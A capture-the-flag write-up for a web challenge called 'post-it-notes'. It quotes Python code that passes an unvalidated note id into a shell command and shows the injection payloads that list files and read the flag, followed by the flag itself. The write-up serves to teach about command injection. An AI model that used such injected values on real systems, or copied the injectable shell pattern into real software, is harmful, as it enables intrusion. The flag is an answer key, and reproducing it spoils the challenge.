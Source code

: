 # post-it-notes (82 solves)

Source: [source/](./source)

Ignoring the questionable quality of the code, close analysis reveals an exploitable function:

```python
def get_note(nid):
    stdout, stderr = subprocess.Popen(f"cat 'notes/{nid}' || echo it did not work btw", shell = True, stdout = subprocess.PIPE, stderr = subprocess.PIPE, stdin = subprocess.PIPE).communicate()
    if stderr:
        print(stderr) # lemonthink
        return {}
    return {
        'success' : True,
        'title' : nid,
        'contents' : stdout.decode('utf-8', errors = 'ignore')
    }
```

`nid` is directly passed into this function from the web server code without any validation. This means that we can do command injection by appending commands to the end of a valid note url(which depends on your server instance).

`';ls '.` reveals the presence of a `flag.txt` file, which we can then read.

Final Exploit: `';cat 'flag.txt`

Flag: `flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}`
